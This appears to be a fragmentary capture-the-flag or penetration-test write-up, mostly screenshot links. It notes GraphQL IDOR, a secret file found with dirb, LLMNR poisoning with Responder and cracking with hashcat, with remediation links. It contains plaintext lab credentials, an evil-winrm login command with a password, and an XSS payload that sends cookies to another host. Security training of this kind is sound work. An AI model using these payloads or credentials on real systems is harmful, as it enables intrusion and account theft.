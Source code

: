 # Schellman 
- [Schellman](#schellman)
  - [Project Summary](#project-summary)
  - [Scope](#scope)
  - [Major Findings by Severity Level](#major-findings-by-severity-level)
  - [Itemized issue listing](#itemized-issue-listing)

## Project Summary

## Scope

## Major Findings by Severity Level
Urgent - 
Major - 
Medium - 
Low -
## Itemized issue listing

![](/ctf/img/2020-08-10-11-48-13.png)

Login using credentials from the source code which is logged in as guest...
Graphql introspection then query out 

![](../ctf/img/2020-08-11-08-03-53.png)

![](../ctf/img/2020-08-11-08-08-59.png)

![](../ctf/img/2020-08-10-13-17-32.png)


Graphql information query, IDOR information disclosure

Using dirb found a secret file which is allowing non-authorized access 

![](../ctf/img/2020-08-10-13-29-38.png)

secret-creds.enc 
Username: billybob
Password: Winter2020!
Server: BLU-DevServer

![](../ctf/img/2020-08-10-13-32-56.png)

C:\Users\BillyBob\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
This file can be cleared using a task or it powershell can be configured to not output console history
evil-winrm -i 10.0.0.6 -u randy_admin -p '*3AHOiMb*67LlLpIZKx71bN6'

![](../ctf/img/2020-08-10-13-52-40.png)

![](../ctf/img/2020-08-10-14-01-17.png)

Create a rocket account, users are showing passwords in plaintext

![](../ctf/img/2020-08-10-14-04-32.png)

Logging into with azurediamond hunter2 there was another flag...never, unless you want to invite users to access your account, give plaintext passwords

----
Using responder to listen to requests from the networks domain 
If a client/target cannot resolve a name via DNS it will fall back to name resolution via LLMNR (introduced in Windows Vista) and NBT-NS which this host is responding to which will cause no alarms, malicious activity, simply listening to requests can expose hashes in this case it was an administrator for the server!!
The hash was cracked using hashcat and rockyou (which is a common list of passwords)


Remediation -- Disable LLMNR via group policy, Disable NBT-NS, enable SMB signing via group policy 
http://techgenix.com/secure-smb-connections/

https://technet.microsoft.com/en-us/library/jj852239(v=ws.11).aspx

![](../ctf/img/2020-08-10-15-20-15.png)

![](../ctf/img/2020-08-10-15-20-32.png)

![](../ctf/img/2020-08-10-15-19-29.png)

Willemlovesienna11 wisable


10.0.0.13 -- jbossws console
![](../ctf/img/2020-08-10-18-12-06.png)


<script> new Image().src="http://10.0.0.4/?output="+document.cookie; </script>
[2:39 PM]
PRD02
PRD03

![](../ctf/img/2020-08-11-10-31-34.png)
